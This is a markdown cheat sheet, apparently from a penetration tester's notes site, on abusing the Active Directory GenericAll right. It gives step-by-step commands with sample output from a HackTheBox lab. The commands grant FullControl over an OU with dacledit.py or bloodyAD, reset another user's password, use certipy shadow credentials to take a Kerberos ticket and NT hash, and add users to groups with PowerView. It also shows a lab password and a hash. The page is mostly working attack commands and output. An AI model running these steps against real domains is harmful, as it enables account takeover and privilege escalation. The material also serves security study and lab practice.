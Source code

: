 ```yaml
---
title: "GenericAll"
date: 2024-7-12
tags: ["Shadow Credentials", "Powerview", "Credential Dumping", "AddMember", "Impacket", "Genericall", "Domain Controller", "Active Directory", "Windows"]
---
```


### Abuse #1: Change target user password

{{< tab set1 tab1 >}}Linux{{< /tab >}}
{{< tab set1 tab2 >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Add Full Control to current user

{{< tab set1-1 tab1 active >}}impacket{{< /tab >}}{{< tab set1-1 tab2 >}}bloodyAD{{< /tab >}}
{{< tabcontent set1-1 tab1 >}}

#### Install latest impacket (included dacledit.py)

```console
git clone https://github.com/fortra/impacket.git
```

```console
cd impacket
```

```console
pip3 install .
```

#### Add Full Control to current user

```console
sudo ntpdate -s <DC> && dacledit.py -k '<DOMAIN>/<USER>:<PASSWORD>' -dc-ip <DC> -principal <USER> -target-dn 'OU=<TARGET_GROUP>,DC=<EXAMPLE>,DC=<COM>' -inheritance -action write -rights FullControl -use-ldaps
```

```console {class=sample-code}
$ dacledit.py -k 'rebound.htb/oorend:1GR8t@$$4u' -dc-ip 10.10.11.231 -principal oorend -target-dn 'OU=SERVICE USERS,DC=REBOUND,DC=HTB' -inheritance -action write -rights FullControl -use-ldaps
Impacket v0.12.0.dev1+20240730.164349.ae8b81d7 - Copyright 2023 Fortra

[*] NB: objects with adminCount=1 will no inherit ACEs from their parent container/OU
[*] DACL backed up to dacledit-20240923-015912.bak
[*] DACL modified successfully!
```

{{< /tabcontent >}}
{{< tabcontent set1-1 tab2 >}}

```console
bloodyAD -d <DOMAIN> -u '<USER>' -p '<PASSWORD>' --host <DC> add genericAll 'OU=<TARGET_GROUP>,DC=<EXAMPLE>,DC=<COM>' '<USER>'
```

```console {class=sample-code}
$ bloodyAD -d rebound.htb -u 'oorend' -p '1GR8t@$$4u' --host 10.10.11.231 add genericAll 'OU=SERVICE USERS,DC=REBOUND,DC=HTB' 'oorend'
[+] oorend has now GenericAll on OU=SERVICE USERS,DC=REBOUND,DC=HTB
```

{{< /tabcontent >}}

#### 2. Change password

{{< tab set1-2 tab1 active >}}bloodyAD{{< /tab >}}
{{< tabcontent set1-2 tab1 >}}

```console
bloodyAD -d <DOMAIN> -u '<USER>' -p '<PASSWORD>' --host <DC> set password '<TARGET_USER>' '<NEW_PASSWORD>'
```

```console {class="sample-code"}
$ bloodyAD -d rebound.htb -u 'oorend' -p '1GR8t@$$4u' --host 10.10.11.231 set password 'winrm_svc' 'Test1234'
[+] Password changed successfully!
```

<small>*Ref: [bloodyAD](https://github.com/CravateRouge/bloodyAD)*</small>

{{< /tabcontent >}}
{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### 1. Import PowerView.ps1 

```console
. .\PowerView.ps1
```

```console {class=sample-code}
*Evil-WinRM* PS C:\programdata> . .\PowerView.ps1
```

#### 2. Change target user password

```console
$password = ConvertTo-SecureString <PASSWORD> -AsPlainText -Force 
```

```console {class=sample-code}
*Evil-WinRM* PS C:\programdata> $password = ConvertTo-SecureString Test1234 -AsPlainText -Force
```

```console
Set-DomainUserPassword -Identity <TARGET_USER> -AccountPassword $password
```

```console {class=sample-code}
*Evil-WinRM* PS C:\programdata> Set-DomainUserPassword -Identity superfume -AccountPassword $password
```

{{< /tabcontent >}}

---

### Abuse #2: Get shadow credentials

{{< tab set3 tab1 >}}Linux{{< /tab >}}
{{< tabcontent set3 tab1 >}}

#### 1. Add Full Control to current user

{{< tab set3-1 tab1 active >}}impacket{{< /tab >}}{{< tab set3-1 tab2 >}}bloodyAD{{< /tab >}}
{{< tabcontent set3-1 tab1 >}}

#### Install latest impacket (included dacledit.py)

```console
git clone https://github.com/fortra/impacket.git
```

```console
cd impacket
```

```console
pip3 install .
```

#### Add Full Control to current user

```console
sudo ntpdate -s <DC> && dacledit.py -k '<DOMAIN>/<USER>:<PASSWORD>' -dc-ip <DC> -principal <USER> -target-dn 'OU=<TARGET_GROUP>,DC=<EXAMPLE>,DC=<COM>' -inheritance -action write -rights FullControl -use-ldaps
```

```console {class="sample-code"}
$ dacledit.py -k 'rebound.htb/oorend:1GR8t@$$4u' -dc-ip 10.10.11.231 -principal oorend -target-dn 'OU=SERVICE USERS,DC=REBOUND,DC=HTB' -inheritance -action write -rights FullControl -use-ldaps
Impacket v0.12.0.dev1+20240730.164349.ae8b81d7 - Copyright 2023 Fortra

[*] NB: objects with adminCount=1 will no inherit ACEs from their parent container/OU
[*] DACL backed up to dacledit-20240923-015912.bak
[*] DACL modified successfully!
```

{{< /tabcontent >}}
{{< tabcontent set3-1 tab2 >}}

```console
bloodyAD -d <DOMAIN> -u '<USER>' -p '<PASSWORD>' --host <DC> add genericAll 'OU=<TARGET_GROUP>,DC=<EXAMPLE>,DC=<COM>' '<USER>'
```

```console {class="sample-code"}
$ bloodyAD -d rebound.htb -u 'oorend' -p '1GR8t@$$4u' --host 10.10.11.231 add genericAll 'OU=SERVICE USERS,DC=REBOUND,DC=HTB' 'oorend'
[+] oorend has now GenericAll on OU=SERVICE USERS,DC=REBOUND,DC=HTB
```

{{< /tabcontent >}}

#### 2. Get shadow credentials

```console
sudo ntpdate -s <DC> && certipy-ad shadow auto -username <USER>@<DOMAIN> -password '<PASSWORD>' -k -account <TARGET_USER> -target <DC>
```

```console {class="sample-code"}
$ sudo ntpdate -s dc01.rebound.htb && certipy-ad shadow auto -username oorend@rebound.htb -password '1GR8t@$$4u' -k -account winrm_svc -target dc01.rebound.htb
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'winrm_svc'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '22fdb427-7028-72b8-bc39-8f4674c644dd'
[*] Adding Key Credential with device ID '22fdb427-7028-72b8-bc39-8f4674c644dd' to the Key Credentials for 'winrm_svc'
[*] Successfully added Key Credential with device ID '22fdb427-7028-72b8-bc39-8f4674c644dd' to the Key Credentials for 'winrm_svc'
[*] Authenticating as 'winrm_svc' with the certificate
[*] Using principal: winrm_svc@rebound.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'winrm_svc.ccache'
[*] Trying to retrieve NT hash for 'winrm_svc'
[*] Restoring the old Key Credentials for 'winrm_svc'
[*] Successfully restored the old Key Credentials for 'winrm_svc'
[*] NT hash for 'winrm_svc': 4469650fd892e98933b4536d2e86e512
```

#### FIX: KDC_ERR_PADATA_TYPE_NOSUPP(KDC has no support for padata type)

```console
# No really a fix, need to runas administrator
gpupdate /force
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\Administrator\Documents> gpupdate /force
Updating policy...

Computer Policy update has completed successfully.

User Policy update has completed successfully.
```

{{< /tabcontent >}}

---

### Abuse #3 : Add user to group

{{< tab set4 tab1 >}}Windows{{< /tab >}}
{{< tabcontent set4 tab1 >}}

#### 1. Import PowerView
```console
. .\PowerView.ps1
```

#### 2. Create a cred object (runas) \[optional\]

```console
$username = '<DOMAIN>\<USER>'
```

```console
$password = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
```

```console
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $password
```

#### 2. Add user to group

```console
Add-DomainGroupMember -Identity <TARGET_GROUP> -Members <USER> -Credential $cred
```

{{< /tabcontent >}}
